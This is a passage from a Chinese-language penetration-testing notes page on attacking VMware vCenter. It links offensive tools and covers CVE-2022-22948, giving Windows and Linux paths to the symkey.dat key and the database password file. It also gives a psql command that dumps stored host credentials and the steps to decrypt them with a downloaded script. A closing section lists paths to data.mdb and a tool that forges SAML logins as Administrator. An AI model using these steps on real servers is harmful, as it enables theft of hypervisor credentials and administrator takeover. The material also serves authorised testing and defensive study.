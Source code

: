 **相关工具**
- [JamesCooteUK/SharpSphere](https://github.com/JamesCooteUK/SharpSphere) - .NET Project for Attacking vCenter
- [RicterZ/PySharpSphere](https://github.com/RicterZ/PySharpSphere) - Inspired by SharpSphere, just another python version.

### CVE-2022-22948

**漏洞描述**

对 postgresql 里的 vcenter 密码解密

**相关文章**
- [CVE-2022-22948: Sensitive Information Disclosure in VMware vCenter](https://www.pentera.io/blog/information-disclosure-in-vmware-vcenter/)

**POC | Payload | exp**
- [shmilylty/vhost_password_decrypt](https://github.com/shmilylty/vhost_password_decrypt) - vhost password decrypt
    ```bash
    # symkey.dat
    Windows: C:\ProgramData\VMware\vCenterServer\cfg\vmware-vpx\ssl\symkey.dat
    Linux: /etc/vmware-vpx/ssl/symkey.dat

    # postgres user password
    Windows: C:\ProgramData\VMware\vCenterServer\cfg\vmware-vps\vcdb.properties
    Linux: /etc/vmware-vpx/vcdb.properties /etc/vmware/service-state/vpxd/vcdb.properties

    # 密文
    psql -h 127.0.0.1 -p 5432 -U vc -d VCDB -c "select ip_address,user_name,password from vpx_host;" > password.enc

    # 解密
    git clone https://github.com/shmilylty/vhost_password_decrypt.git
    cd vhost_password_decrypt
    pip3 install pycryptodome
    python3 decrypt.py symkey.dat password.enc password.txt
    ```

### 伪造 cookie

**获取 data.mdb**
- windows：C:/ProgramData/VMware/vCenterServer/data/vmdird/data.mdb
- linux：/storage/db/vmware-vmdir/data.mdb

**相关工具**
- [horizon3ai/vcenter_saml_login](https://github.com/horizon3ai/vcenter_saml_login) - A tool to extract the IdP cert from vCenter backups and log in as Administrator
